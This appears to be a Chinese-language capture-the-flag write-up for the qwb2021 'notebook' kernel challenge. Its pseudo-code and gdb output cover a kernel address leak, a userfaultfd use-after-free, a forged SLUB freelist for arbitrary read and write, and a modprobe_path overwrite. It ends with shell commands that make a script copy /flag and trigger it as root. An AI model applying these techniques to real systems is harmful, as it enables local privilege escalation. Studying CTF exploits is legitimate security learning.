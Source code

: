 # qwb2021 notebook

## 泄露地址

1.读取未初始化数据

```c
fd[i] = open("/proc/self/stat", 0) for i in range(SPRAY)
close(fd[i]) for i in range(SPRAY)
noteadd(i, 0x20) for i in range(SPRAY)
read(fd, data, i) for i in range(SPRAY)
kernel_base = data[0] - offset_single_start
```

2. 通过userfaultfd来实现UAF，类似于knote那一道题，然而本题读不到新的结构体，猜测可能是cache的原因

```c
register(fault_page, handler)
def handler():
	notedel(0)
	open("/proc/self/stat", 0)
	mmap(0,PAGE_SIZE,...)
	ioctl(uffd, UFFC_COPY, &uc)
read(fd, falt_page, 0)
```

3.构造fake_slub指向notebook-0x10，然后实现任意地址读写，通过读取0x167（call copy_from_user）来泄露地址

```
(gdb) x/6i 0xffffffffc0002000+0x167
	0xffffffffc0002167 <noteadd+87>:	callq  0xffffffff81476c30（copy_from_user）
(gdb) x/6bx 0xffffffffc0002000+0x167
	0xffffffffc0002167 <noteadd+87>:	0xe8	0xc4	0x4a	0x47	0xc1	0x48
(gdb) x/wx 0xffffffffc0002168
	0xffffffffc0002168 <noteadd+88>:	0xc1474ac4
(gdb) p/x 0xffffffff81476c30-0xffffffffc000216c
	$13 = 0xffffffffc1474ac4
kernel_base = (int64_t)0xc1474ac4+0xffffffffc000216c-0x1476c30 = 0xffffffff81000000

```

## 构造fake_slub

1.exp申请的第一个块不一定是该kmem_cache的第一个块

2.伪造的fake_slub，一定要保证fake_slub→freelist指向0或者存在映射(mmap⇒vma)，如果是后者一定要通过alloc去分配，否则其他core分配时会出错(因为其他进程没有这个mmap)；如果内核开启了SMAP则映射的地址不能是用户态，因此最好是0.

3.为了修改modprobe_path，不能直接指向这个地址，否则由于modprobe_path→freelist不合法而出错。正确的做法是，将free_slub→freelist指向notebook附近，**且需要存在修改notebook附近的该slub→freelist的途径**，例如此题的name，可以修改这个freelist。

### 猜测random+修改modprobe_path

```c
noteadd(0,0x60)
noteadd(1,0x60)
gift(data)
addr0, addr1 = data[0], data[2]
notedel(0)
notedel(1) //kmem_cache_cpu->addr1->addr0
noteadd(0,0x60)
gift(data)
assert(data[0] == addr1)
read(fd,data,0)
random = data[0]^addr1^addr0
magic = notebook_base+0x2500-0x10
def writeHeapFree():
	register(userbuf, handler)
	write(fd, userbuf, 0)
def handler():
	notedel(0)
	write(0,addr1^magic^random)
	page_in()
	writeHeapFree()
tmp[0xf0] = random ^ (notebook_base+0x2500-0x10) //make it the last slub
noteadd(0,0x60,tmp)
gift(data)
assert(data[0] == addr1)
noteadd(1,0x60,tmp)
data[2]=0x168
data[4]=0x2500 //notebook[1]->ptr = notebook[0]
write(fd,data,1)
read(fd,data,0)
kernel_base=*(int32*)&data[0]+notebook_base+0x16c-0x1476c30
data[0] = modprobe_path_offset + kernel_base
write(fd,data,1)
strcpy(data,"/tmp/1.sh")
write(fd,data,0)

system("echo -ne '#!/bin/sh\n/bin/cp /flag /tmp/flag\n/bin/chmod 777 /tmp/flag' > /tmp/1.sh");
system("echo -ne '\xff\xff\xff\xff' > /tmp/aaa");
system("chmod +x /tmp/1.sh");
system("chmod +x /tmp/aaa");
system("/tmp/aaa");
system("cat /tmp/flag");
```
